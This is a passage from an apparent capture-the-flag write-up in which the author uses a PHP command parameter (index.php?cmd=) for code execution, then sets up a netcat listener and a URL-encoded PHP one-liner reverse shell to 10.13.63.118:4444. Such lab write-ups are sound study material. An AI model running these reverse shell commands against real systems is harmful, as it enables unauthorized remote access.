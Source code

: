 <br>

> It can be passed commands via the php file... e.g. index.php?cmd=

<br>


<p align="center" width="100%">
    <img width="33%" src="https://github.com/user-attachments/assets/5ddd39b7-f388-4b96-872c-15adf883731c">
</p>

> It's base64 encoded...

<br>

```shell
echo "dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK" | base64 -d

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
<br>

> Huh, are you kidding me?? The hint for this question was absolutely spot on, I found nothing when I looked at it the first time, so I went on ahead with other methods. Had I enumerated more thoroughly I would have found this within the first day easily...

<br>

## Foothold

> Now that we can interact with the system, we can try to figure out a way to get an initial foothold, since we are able to use the command line pretty freely we could simply upload a PHP reverse shell.

#### Set up an HTTP server to Serve files

```shell
python3 -m http.server 8080
```

#### Setting Netcat to listen on port 4444

```shell
nc -lvnp 4444
```

### Reverse Shell (One Line Command)

> There are many methods that will work here, since we have such free usage of the command line. We could upload a PHP Reverse shell, or we could try some one line command line versions.

<br>

```php-one-liner
php%20-r%20%27%24sock%3Dfsockopen%28%2210.13.63.118%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```
<br>
